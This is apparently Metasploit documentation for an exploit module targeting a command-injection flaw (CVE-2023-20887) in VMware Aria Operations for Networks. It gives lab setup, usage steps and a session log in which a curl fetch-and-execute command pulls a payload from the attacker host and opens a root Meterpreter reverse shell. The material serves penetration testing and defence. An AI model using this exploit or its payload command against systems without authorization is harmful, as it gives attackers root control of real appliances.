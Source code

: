## Vulnerable Application

VMWare Aria Operations for Networks (vRealize Network Insight) is vulnerable to command injection
when accepting user input through the Apache Thrift RPC interface. This vulnerability allows a
remote unauthenticated attacker to execute arbitrary commands on the underlying operating system
as the root user. The RPC interface is protected by a reverse proxy which can be bypassed.
VMware has evaluated the severity of this issue to be in the Critical severity range with a
maximum CVSSv3 base score of 9.8. A malicious actor can get remote code execution in the
context of `root` on the appliance.
VMWare versions 6.2 to 6.10 are vulnerable.

This module exploits the vulnerability to upload and execute payloads gaining root privileges.
Successfully tested against version 6.8.0.

### Install

The OVA file can be downloaded from the VMware Customer Connect portal. 

1. Import the file VMware-vRealize-Network-Insight-6.8.0.1666364233-platform.ova into VMware Fusion
2. Login with the given credentials `consoleuser:console`
3. Run the `setup` command to begin setup

Starting Step 1/4: Create User Passwords
1. Enter and re-enter SSH_User_Password: `notpassword`
2. Enter and re-enter CLI_User_Password: `notpassword`

Starting Step 2/4: Network Configuration:
1. Enter IP_Family: `ipv4`
2. Enter IP_Address: `192.168.1.60`
3. Enter Default_Gateway: `192.168.1.254`
4. Enter DNS: `4.2.2.4 8.8.8.8`
5. Enter Domain_Search: `example.com`
6. Save configuration: `y`

Starting Step 3/3: Network Time Server Configuration:
1. Is the Network Time Security supported for NTP servers? `n`
2. Enter NTP servers: `0.us.pool.ntp.org`

Step 4/4: Web-Proxy (Optional Configuration)
1. Configure web proxy?: `n`


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use linux/http/vmware_vrni_rce_cve_2023_20887`
1. Do: `set rhost [ip]`
1. Do: `set lhost [ip]`
1. Do: `set FETCH_SRVHOST [ip]`
1. Do: `run`
1. You should get a root shell.

## Options

## Scenarios

### VMware vRealize Network Insight 6.8.0 1666364233

```
msf6 > use linux/http/vmware_vrni_rce_cve_2023_20887
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > set rhost 192.168.1.60
rhost => 192.168.1.60
msf6 exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > set lhost 192.168.1.69
lhost => 192.168.1.69
msf6 exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > set FETCH_SRVHOST 192.168.1.69
FETCH_SRVHOST => 192.168.1.69
msf6 exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > options

Module options (exploit/linux/http/vmware_vrni_rce_cve_2023_20887):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.1.60     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      hHTNUdqFrV       no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST       192.168.1.69     yes       Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.1.69     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 192.168.1.67:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.1.60:443 can be exploited.
[+] The target is vulnerable. VMWare Aria Operations for Networks (vRealize Network Insight) version 6.8.0 was found.
[*] Executing Unix (In-Memory) with curl -so ./yjUczQeXbCf http://192.168.1.67:8080/VtUnMtEdkI5A0Lv6Y2zkFw; chmod +x ./yjUczQeXbCf; ./yjUczQeXbCf &
[*] Attempting to execute shell
[*] Sending stage (3045348 bytes) to 192.168.1.60
[*] Meterpreter session 9 opened (192.168.1.67:4444 -> 192.168.1.60:52370) at 2023-07-20 14:50:13 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.1.60
OS           : Ubuntu 18.04 (Linux 5.4.0-126-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

